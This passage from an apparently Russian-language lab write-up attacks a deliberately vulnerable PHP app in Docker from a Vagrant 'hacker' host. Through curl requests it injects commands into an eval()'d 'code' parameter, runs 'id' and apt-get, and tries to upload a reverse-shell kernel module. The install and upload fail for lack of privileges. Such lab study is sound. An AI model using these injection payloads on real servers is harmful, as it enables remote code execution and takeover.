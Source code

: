 ```
   ---> 789aa580e832
  Step 5/5 : CMD [ "php", "-S", "0.0.0.0:80" ]
   ---> Running in fd3e54dd7ef2
  Removing intermediate container fd3e54dd7ef2
   ---> 3afd0af1371b

  Successfully built 3afd0af1371b
  Successfully tagged victim_webapp:latest
  Recreating victim_webapp_1 ... done
```

Теперь выполним проверку с хоста `hacker`:

```
$ vagrant ssh hacker
vagrant@hacker:~$ curl -G 192.168.56.4 --data-urlencode "code=system('id');"
  <h1> Hello world!</h1>
  uid=1000 gid=0(root) groups=0(root)
  <br>
```

Как мы видим приложение запущено из под пользователя с UID=1000. Тем не менее попробуем установить необходимые пакеты:

```
vagrant@hacker:~$ curl -G 192.168.56.4 --data-urlencode "code=system('apt-get update 2>&1 && apt-get install -y libcap2-bin kmod 2>&1');"
  <h1> Hello world!</h1>
  Reading package lists...
  E: List directory /var/lib/apt/lists/partial is missing. - Acquire (13: Permission denied)
  <br>
```

Несмотря на то что установить `kmod` не удалось попробуем загрузить модуль

```
vagrant@hacker:~$ cd /vagrant/hacker/
vagrant@hacker:/vagrant/hacker$ curl -X POST 192.168.56.4/?code=move_uploaded_file%28%24_FILES%5B%27shell%27%5D%5B%27tmp_name%27%5D%2C%20%27reverse-shell.ko%27%29%3B -F 'shell=@reverse-shell.ko'
  <h1> Hello world!</h1>
  <br />
  <b>Warning</b>:  move_uploaded_file(reverse-shell.ko): failed to open stream: Permission denied in <b>/app/index.php(3) : eval()'d code</b> on line <b>1</b><br />
  <br />
  <b>Warning</b>:  move_uploaded_file(): Unable to move '/tmp/phpXpL5E6' to 'reverse-shell.ko' in <b>/app/index.php(3) : eval()'d code</b> on line <b>1</b><br />
  <br>
```

В лоб загрузить не удалось. Есть возможность попробовать загрузить в папку `tmp`. Но да же после этого выполнить
команду `insmod` не удасться.

1. kmod - не установлен и команды `insmod` просто нет
2. У не привелигированного пользователя нет прав для выполнения этой операции.
